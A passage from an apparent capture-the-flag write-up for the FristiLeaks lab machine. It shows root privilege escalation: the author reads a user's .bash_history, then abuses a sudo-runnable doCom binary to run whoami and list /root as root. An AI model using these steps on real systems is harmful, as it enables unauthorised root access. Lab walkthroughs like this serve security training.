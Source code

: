 
However upon running this the right way i have the following error.

```bash
bash-4.1$ sudo -u fristigod /var/fristigod/.secret_admin_stuff/doCom
Sorry, user fristigod is not allowed to execute '/var/fristigod/.secret_admin_stuff/doCom' as fristigod on localhost.localdomain.
```

Navigating to `/var/fristigod` i have a `.bash_history` file there  


```bash
bash-4.1$ pwd
/var/fristigod
bash-4.1$ ls -la
total 16
drwxr-x---   3 fristigod fristigod 4096 Nov 25  2015 .
drwxr-xr-x. 19 root      root      4096 Nov 19  2015 ..
-rw-------   1 fristigod fristigod  900 Aug 25 09:42 .bash_history
drwxrwxr-x.  2 fristigod fristigod 4096 Nov 25  2015 .secret_admin_stuff
```

Reading this file i understood more how this command worked 🤣, we need to specify a command next to the actual command.

```bash
bash-4.1$ cat .bash_history 
ls
pwd
ls -lah
cd .secret_admin_stuff/
ls
./doCom 
./doCom test
sudo ls
exit
cd .secret_admin_stuff/
ls
./doCom 
sudo -u fristi ./doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
exit
--SNIP--
bash-4.1$ 

```

So i decided to run the `whoami` command and we got a response as user `root`


```bash
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom whoami
[sudo] password for fristigod: 
root
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /root -la
total 48
dr-xr-x---.  3 root root 4096 Nov 25  2015 .
dr-xr-xr-x. 22 root root 4096 Aug 25 08:51 ..
-rw-------   1 root root 1936 Nov 25  2015 .bash_history
-rw-r--r--.  1 root root   18 May 20  2009 .bash_logout
-rw-r--r--.  1 root root  176 May 20  2009 .bash_profile
-rw-r--r--.  1 root root  176 Sep 22  2004 .bashrc
drwxr-xr-x.  3 root root 4096 Nov 25  2015 .c
-rw-r--r--.  1 root root  100 Sep 22  2004 .cshrc
-rw-------.  1 root root 1291 Nov 17  2015 .mysql_history
-rw-r--r--.  1 root root  129 Dec  3  2004 .tcshrc
-rw-------.  1 root root  829 Nov 17  2015 .viminfo
-rw-------.  1 root root  246 Nov 17  2015 fristileaks_secrets.txt
```